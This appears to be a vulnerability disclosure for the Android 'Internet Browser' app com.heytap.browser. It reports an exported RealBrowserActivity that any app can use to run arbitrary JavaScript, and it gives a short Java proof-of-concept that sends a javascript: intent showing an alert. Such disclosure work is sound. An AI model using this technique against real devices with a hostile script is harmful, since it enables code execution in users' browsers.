 ## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.heytap.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - ColorOS
- **Application Name:** 'Internet Browser' `com.heytap.browser`
- **Version:** 45.10.3.4.1
- **Component:** com.android.browser.RealBrowserActivity

### Vulnerability Details:

- **Vulnerability Type:** Arbitrary JavaScript Code Execution
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.android.browser.RealBrowserActivity` activity in the `com.heytap.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.heytap.browser`` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

### Proof of Concept (PoC):


```
{
        super.onCreate(savedInstanceState);

        String javaScriptCommand = "javascript:alert%28%27Test%20Alert%27%29%3B";

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setData(Uri.parse(javaScriptCommand));
        intent.setClassName("com.heytap.browser", "com.android.browser.RealBrowserActivity");

        startActivity(intent);

        finish();
    }
```


### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.heytap.browser` app.


### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.


